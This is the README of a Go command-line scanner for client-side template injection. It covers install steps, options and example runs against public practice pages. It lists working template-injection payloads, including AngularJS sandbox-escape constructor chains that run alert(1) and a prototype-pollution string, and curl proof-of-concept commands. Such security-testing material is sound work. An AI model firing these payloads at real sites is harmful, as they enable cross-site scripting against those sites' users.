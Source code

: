 ![image (1)](https://github.com/user-attachments/assets/6b36c05a-7b03-482a-a130-32dc213159be)


# 🕵️‍♂️ CSTIScan: Client-Side Template Injection (SISTEE) Scanner

CSTIScan is a powerful tool designed to identify and exploit potential Client-Side Template Injection (CSTI) vulnerabilities in web applications. CSTI occurs when user input is incorrectly handled and inserted into client-side templates, potentially leading to cross-site scripting (XSS) and other security issues.

## 🚀 Features

- 🔍 Automated scanning of single or multiple URLs
- 🧪 Tests various CSTI payloads
- 📊 Detailed vulnerability reporting
- 🛠️ Proof of Concept (PoC) generation
- 📈 Progress bar for multiple URL scans
- 🎨 Colorized console output

## 📦 Installation

1. Ensure you have Go installed on your system.
2. Clone this repository:

```
git clone https://github.com/queencitycyber/SISTEE
cd SISTEE
go mod init csti.go
go mod tidy
go build .
```


## 🔧 Usage

Public Firing Range: 

* AngularJS: [https://jsfiddle.net/2zs2yv7o/](https://jsfiddle.net/2zs2yv7o/)

* VueJS: [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh/)


### Help Menu

```
NAME:
   cstiscan - Scan for Client-Side Template Injection vulnerabilities

USAGE:
   cstiscan [global options] command [command options]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --url value, -u value   Single URL to test
   --file value, -f value  File containing URLs to test
   --poc                   Output PoC details (default: false)
   --proof                 Output proof of vulnerable code (default: false)
   --help, -h              show help
```

### Example Run - Provide Proof

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --proof
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
Proof:
Payload reflection: {{7*7}}
Payload reflection: <%= 7*7 %>
Payload reflection: {{constructor.constructor('alert(1)')()}}
Payload reflection: {{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
Payload reflection: {{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'}}
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Example Run - Provide PoC

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --poc
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
PoC:
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B7*7%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=${7*7}'
curl 'https://jsfiddle.net/2zs2yv7o/?test=<%= 7*7 %>'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7Bconstructor.constructor('alert(1)')()%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7BtoString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'%7D%7D'
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Single URL Scan
```
./cstiscan --url https://example.com
```

### Multiple URL Scan
```
./cstiscan --file urls.txt
```

### Include PoC Commands
```
./cstiscan --url https://example.com --poc
```

### Include Proof of Vulnerable Code
```
./cstiscan --url https://example.com --proof
```

## 🔬 Methodology

### 1. Automated Scanning
The tool performs the following steps:
- Fetches the target URL(s)
- Analyzes the HTML content for potential CSTI vectors
- Tests various CSTI payloads
- Generates a detailed report of findings

### 2. Manual Verification
For each potentially vulnerable URL:
1. Open the URL in a browser
2. Open the browser's developer console
3. Inject test payloads into user input fields or URL parameters
4. Check for unexpected behavior or script execution

### 3. CSTI Payload Testing
The tool tests various payloads, including:

```
{{77}}
${77}
<%= 7*7 %>
{{constructor.constructor('alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```

### 4. Identifying Vulnerable Templates
The scanner looks for patterns that might indicate template usage, such as:
- `{{ }}` (Mustache, Handlebars, AngularJS, Vue.js)
- `${ }` (ES6 template literals, some frameworks)
- `<%= %>` (EJS, Underscore.js)

## 📊 Results

- The tool outputs a table with vulnerable URLs, details, and optional PoC commands
- For manual testing, document:
  - The URL tested
  - The payload used
  - The observed behavior (e.g., unexpected script execution, template evaluation)
- Results are saved in JSON format for further analysis

## 💡 Tips & Tricks

1. **URL Parameter Testing**: Try injecting payloads via URL parameters:

```
https://target.com/page?param={{7*7}}
```

2. **Combine with XSS**: CSTI can often lead to XSS, test with alert functions:

```
{{constructor.constructor('alert("CSTI vulnerability")')()}}
```

3. **Check for Different Template Engines**: Different frameworks use different syntax, test various formats:

* `{{ }}` for Mustache, Handlebars, AngularJS, Vue.js
* `${ }` for ES6 template literals
* `<%= %>` for EJS, Underscore.js

4. **Prototype Pollution via CSTI**: Some payloads can lead to prototype pollution:

```
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```
